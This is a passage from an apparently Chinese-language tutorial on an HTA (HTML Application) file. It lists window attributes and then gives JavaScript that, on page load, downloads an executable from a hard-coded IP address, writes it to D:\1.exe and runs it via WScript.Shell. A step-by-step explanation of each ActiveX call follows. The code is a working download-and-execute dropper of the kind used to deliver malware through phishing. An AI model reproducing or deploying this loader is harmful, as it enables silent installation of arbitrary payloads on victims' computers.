* `APPLICATIONNAME="DownloadAndRunExe"`：指定应用程序的名称。
* `BORDER="thin"`、`BORDERSTYLE="normal"`：设置窗口的边框样式。
* `CAPTION="yes"`：在窗口显示标题栏。
* `CONTEXTMENU="no"`：禁用右键菜单。
* `MAXIMIZEBUTTON="no"`、`MINIMIZEBUTTON="no"`：禁用最大化和最小化按钮。
* `SHOWINTASKBAR="yes"`：在任务栏中显示应用程序图标。
* `SINGLEINSTANCE="yes"`：确保只有一个实例运行。
* `SYSMENU="yes"`：显示系统菜单。

#### 2. **JavaScript 部分**

```
<script type="text/javascript">
    function downloadAndRun() {
        try {
            var url = "http://192.168.21.1/cmd.exe"; // 文件的下载地址
            var destination = "D:\1.exe"; // 下载到本地的位置

            // 创建 XMLHTTP 对象来下载文件
            var xhr = new ActiveXObject("MSXML2.XMLHTTP");
            xhr.open("GET", url, false); // 同步请求
            xhr.send();

            if (xhr.status === 200) {
                // 创建文件系统对象
                var stream = new ActiveXObject("ADODB.Stream");
                stream.Type = 1; // 二进制类型
                stream.Open();
                stream.Write(xhr.responseBody); // 写入响应内容
                stream.SaveToFile(destination, 2); // 保存到指定位置
                stream.Close();

                // 下载完成后运行文件
                var shell = new ActiveXObject("WScript.Shell");
                shell.Run(destination);

                //window.close(); // 运行后自动关闭 HTA 窗口
            } else {
                alert("下载失败，错误代码：" + xhr.status);
            }
        } catch (e) {
            alert("发生错误：" + e.message);
        }
    }

    // 在页面加载时自动执行
    window.onload = downloadAndRun;
</script>
```

#### **JavaScript 解释**：

1. **下载文件**：

* `var xhr = new ActiveXObject("MSXML2.XMLHTTP");`

* 创建一个 `ActiveXObject`，这是一个用于执行 HTTP 请求的对象，它允许通过 JavaScript 发起 HTTP 请求。此对象是 IE 浏览器和 HTA 特有的功能，不适用于现代浏览器。

* `xhr.open("GET", url, false);`

* 配置请求。`"GET"` 表示请求方法为 GET，`url` 是目标文件的 URL，`false` 表示同步请求（即请求完成前代码不会继续执行）。

* `xhr.send();`

* 发送请求并获取响应。此请求会尝试从给定的 URL 下载文件。

2. **保存文件**：

* `var stream = new ActiveXObject("ADODB.Stream");`

* 创建一个 `ADODB.Stream` 对象，用于处理二进制数据流。

* `stream.Type = 1;`

* 设置流类型为二进制（`1`表示二进制流）。

* `stream.Open();`

* 打开流。

* `stream.Write(xhr.responseBody);`

* 将 HTTP 响应的二进制数据写入流。

* `stream.SaveToFile(destination, 2);`

* 将文件流保存到指定的路径 (`D:\\1.exe`)。

* `stream.Close();`

* 关闭流。

3. **执行文件**：

* `var shell = new ActiveXObject("WScript.Shell");`

* 创建一个 `WScript.Shell` 对象，它允许执行系统命令。

* `shell.Run(destination);`

* 使用 `Run` 方法执行指定路径的 `.exe` 文件（即运行 `D:\\1.exe`）。

4. **错误处理**：

* 如果请求或下载过程中出现错误，会弹出错误消息框，显示错误代码或错误信息。

5. **自动执行**：

* `window.onload = downloadAndRun;`

* 在页面加载时自动调用 `downloadAndRun` 函数，触发下载和执行过程。

####
